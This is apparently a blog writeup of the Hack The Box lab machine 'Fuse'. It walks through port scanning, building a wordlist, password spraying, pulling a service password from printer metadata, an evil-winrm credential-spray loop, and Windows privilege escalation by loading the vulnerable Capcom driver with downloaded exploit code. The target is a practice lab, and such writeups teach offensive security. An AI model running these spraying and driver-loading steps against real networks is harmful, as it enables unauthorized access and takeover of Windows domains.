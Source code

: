 ```yaml
---
image: /assets/avatars/fuse.png
title: Fuse Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: Writeup for Fuse (Hackthebox)
---
```


# Fuse

As always `nmap`:

```bash
sudo nmap -sC -sV -oA nmap/initial 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-10-24 13:22:53Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
...
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m53s, deviation: 4h02m30s, median: 17m53s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-10-24T06:25:11-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-24T13:25:12
|_  start_date: 2020-10-23T23:24:56
```

Going to port 80, we are redirected to `http://fuse.fabricorp.local/papercut/logs/html/index.htm`, so we add this to hosts file:

```bash
echo -e "\n\n#HTB\n10.10.10.193 fuse.htb fuse.fabricorp.local fabricorp.local\n" | sudo tee -a /etc/hosts
```

We can see this web interface in front of us:

![image-20201024160036103]({{ site.url }}/assets/fuse/image-20201024160036103.png)

Watching the printer logs, we can see a bunch of user names, we can put the in a file that we call `users.txt`.

```
# users.txt
pmerton
tlavel
sthompson
bhult
administrator
```

Now we have to generate a word list for possible passwords, after I tried with classic `rockyou.txt` I tried with `cewl` on the main site:

```bash
cewl -d 5 -m 3  "http://fuse.fabricorp.local/papercut/logs/html/index.htm" --with-numbers > pass_wordlist.txt
```

 And trying password spray on all login names:

![image-20201024181235149]({{ site.url }}/assets/fuse/image-20201024181235149.png)

And eventually, credentials are found:

```
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

When trying to login into `tlavel`, we get:

![image-20201024182201752]({{ site.url }}/assets/fuse/image-20201024182201752.png)

And after some research, I found [this forum question](https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password) (if you can't read play a little with F12), which gave me the answer to my problem:

```bash
smbpasswd -r 10.10.10.193 -U tlavel
```

Note that the new password should be different from the old and with the same length, with the same number on capitalized letters and numbers. I choose `Lolzcorp01`. Hopping on RPC, let's enumerate a little more:

```
rpcclient -U FABRICORP\\tlavel 10.10.10.193

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

We found a password, now what you should do is try that password with your user list (updated with the user list of the `rpcclient` command) in `evil-winrm`.

```bash
_pass='$fab@s3Rv1ce$1' 
for user in $( cat ./users.txt ); do evil-winrm -i 10.10.10.193 -u "$user" -p "$_pass" && echo "$user:$_pass" >> creds.txt; done
```

But after a little research, I discovered this Metasploit module `auxiliary/scanner/winrm/winrm_login`, which was way faster:

![image-20201024185240383]({{ site.url }}/assets/fuse/image-20201024185240383.png)

Then, login with the correct user and password:

![image-20201024185523943]({{ site.url }}/assets/fuse/image-20201024185523943.png)

To get some files into the box, I created a temporary smb share on the attacker machine:

![image-20201024190419653]({{ site.url }}/assets/fuse/image-20201024190419653.png)

And connected to it from the box with the [powershell method](https://community.spiceworks.com/topic/2219152-powershell-mapping-network-drive):

```powershell
$password = ConvertTo-SecureString "lolz" -AsPlainText -Force
$credentials = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "lolz",$password
New-PSDrive -Name L -PSProvider FileSystem -Root "\\10.10.14.86\lolz" -Credential $credentials
```

![image-20201024192002890]({{ site.url }}/assets/fuse/image-20201024192002890.png)

And now let's load [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat) into our share and let's execute it from the box. From the output, we understand that our regular user has administrator's privileges with `SeLoadDriverPrivilege`. Now, to exploit this privilege, we can follow the instructions in [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). Basically, to run the exploit, we should

> At this point we can use the PoC tool EOPLOADDRIVER (https://github.com/TarlogicSecurity/EoPLoadDriver/), which will allow us to:
>
> * Enable the **SeLoadDriverPrivilege** privilege
>
> * Create the registry key under HKEY_CURRENT_USER (HKCU) and set driver configuration settings
>
> * Execute the **NTLoadDriver** function, specifying the registry key previously created

```bash
wget "https://github.com/TarlogicSecurity/EoPLoadDriver/raw/master/eoploaddriver.cpp"
wget "https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys"
git clone "https://github.com/tandasat/ExploitCapcom"
```

Now you should hop in a Windows machine and compile the C++ code editing the command that you want to be executed, but while I was looking for more information, I stumbled in [this merged pull request](https://github.com/rapid7/metasploit-framework/pull/7363) that could make everything way easier, but unfortunately my Metasploit console wouldn't accept my credentials... So... Back to the boring method:

```powershell
# Powershell on Windows machine (mingw required)
g++ .\eoploaddriver.cpp -o eoploaddriver.exe
# Edit the launched string in ExploitCapcom and recompile
```

Copy the files in whatever folder, then:

![image-20201025015005268]({{ site.url }}/assets/fuse/image-20201025015005268.png)

![image-20201025015103961]({{ site.url }}/assets/fuse/image-20201025015103961.png)

...profit!
